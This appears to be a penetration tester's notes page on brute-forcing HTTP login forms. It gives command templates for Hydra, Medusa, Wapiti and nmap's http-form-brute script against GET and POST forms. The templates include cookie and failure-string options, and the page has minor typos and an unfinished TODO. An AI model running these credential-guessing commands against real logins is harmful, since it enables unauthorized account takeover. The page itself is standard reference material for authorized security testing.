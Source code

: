# Password Cracking

## 01 - `GET` HTTP Method

### 1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.txt -P passwords.txt http[s]-get-form <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-get-form://<IP>[:<PORT>][/path/to/URI]
```

### 1.2 - Medusa

HTTP login popup form

```
$ medusa -h <IP> -u <username> -P password.lst -M http -m DIR:/<URL_path>
```

### 1.3 - Wapiti

```
$ waptiti -u <URL> -m brute_login_form
```

^aaabf7

## 02 - Form `POST` HTTP Method

### 2.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

```
$ hydra -L users.lst -P passwords.lst http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:H=Cookie:<cookies_keys_and_values>:F=<invalid_response>"" -vV -f <IP>
```

### 2.2 - Wapiti

![[#^aaabf7]]

### 2.3 - Network Mapper

Brute force HTTP Forms.

```
$ nmap -p 80,443,8000,8080,8443 --script http-form-brute --script-args http.useragent='<user_agent>' <IP>
```